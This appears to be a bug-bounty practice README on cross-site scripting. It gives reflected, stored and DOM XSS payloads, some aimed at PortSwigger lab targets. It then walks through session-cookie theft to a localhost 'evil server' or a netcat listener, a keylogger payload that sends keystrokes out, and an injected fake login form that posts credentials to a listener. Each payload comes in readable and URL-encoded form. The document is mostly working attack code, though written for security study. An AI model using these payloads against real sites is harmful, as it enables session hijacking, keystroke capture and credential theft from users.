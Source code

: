 # basic payload

### reflected:
```
<h1>xss try</h1>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
```
### stored :
```
<img src="does-not-exist" onerror="alert(document.cookie)">

“>img src=x onerror=alert(1)
````
### DOM :
1) document.write :
```
"><svg onload=alert(1)>
" onload = "alert(document.cookies)
```
![image](https://github.com/user-attachments/assets/5b231551-8a4f-4300-a7e5-25cb89105e48)


2) innerHTML :
```
<img src="does-not-exist" onerror="alert(document.cookie)">
```

![image](https://github.com/user-attachments/assets/50dbf402-56d7-447d-a27c-d401301192f1)


3) jQuery anchor href :

after the path

```javascript:alert(document.cookie)```

and click backlink


   ![image](https://github.com/user-attachments/assets/c9b00d4c-ea24-4c01-aadb-3471141427c4)


4) jQuery hash

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
 
![image](https://github.com/user-attachments/assets/5ecb8438-f297-448b-a102-bdf5d2a60bde)

# XSS attack 1: Hijacking the user’s session
## Evil server 
```bash
node evil-server.js
```
download the zip file and use the command on terminal

[evil-server.js](https://github.com/fahimalshihab/Bug-Bounty/blob/main/XSS/Practice/evil-server-js.zip)

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/0b07c731-cb75-4082-9e43-660816c685ea)

### Or 
can make local listener
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/3fb1b3e8-bae1-4e26-a49f-98d83509b151)


## Document.cookie
  ``` js
  <img src="does-not-exist" onerror="alert(document.cookie)">
  ```
  ``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E```


## steal the session cookie
```js
    <img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">

```
``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E```

* Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```


## key-logger:
```js
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

```
%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E
```

* Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

# XSS attack 2: Phishing to steal user credentials
Lets create a local listener server 
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/cf256d77-3c2a-4522-a1de-c2d37eb464c8)


```
<h3>Please login to proceed</h3> <form action=http://localhost:5000>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/d494c8e2-cbd3-4ee7-832f-bf696f55b105)

yeahooo here we go 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/08c8d04d-9c05-403e-bb9a-b77724e1eae1)


